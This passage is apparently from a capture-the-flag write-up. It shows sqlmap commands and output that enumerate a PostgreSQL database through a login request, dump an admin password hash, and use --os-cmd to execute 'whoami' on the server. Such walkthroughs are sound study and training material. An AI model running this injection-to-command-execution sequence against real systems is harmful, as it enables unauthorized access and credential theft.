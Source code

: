 
I’ll add `--dbs` to the end of the command and run it again to list the dbs:

    
    
    available databases [3]:
    [*] information_schema
    [*] pg_catalog
    [*] public
    

`sqlmap -r login.request --force-ssl --batch -D public --tables` will list the
tables in public, finding one:

    
    
    Database: public
    [1 table]
    +-------+
    | users |
    +-------+
    

`sqlmap -r login.request --force-ssl --batch -D public -T users --dump` will
dump a single user, admin, and their password hash. `sqlmap` tries to crack it
but fails, and Google doesn’t know it either.

    
    
    [1 entry]
    +----------------------------------+----------+
    | password                         | username |
    +----------------------------------+----------+
    | 4a100a85cb5ca3616dcf137918550815 | admin    |
    +----------------------------------+----------+
    

The other two tables aren’t interesting.

### Commands via SQL

One technique that rarely works, but is always worth trying is the `--os-cmd`
flag in `sqlmap`. From [the
docs](https://github.com/sqlmapproject/sqlmap/wiki/Usage#run-arbitrary-
operating-system-command), for PostgreSQL, it will upload a shared library to
the system that will work with the database and run arbitrary commands on the
system.

I’ll try `whoami` since it will work on either Linux or Windows, and it works:

    
    
    oxdf@parrot$ sqlmap -r login.request --force-ssl --batch --os-cmd whoami
    ...[snip]...
    [14:09:32] [INFO] the back-end DBMS is PostgreSQL
    web server operating system: Linux Debian 10 (buster)
    web application technology: PHP 7.3.14, Apache 2.4.38
    back-end DBMS: PostgreSQL
    [14:09:32] [INFO] fingerprinting the back-end DBMS operating system
    [14:09:33] [INFO] the back-end DBMS operating system is Linux
    [14:09:33] [INFO] testing if current user is DBA
    [14:09:34] [INFO] retrieved: '1'
    do you want to retrieve the command standard output? [Y/n/a] Y
    [14:09:35] [INFO] retrieved: 'postgres'
    
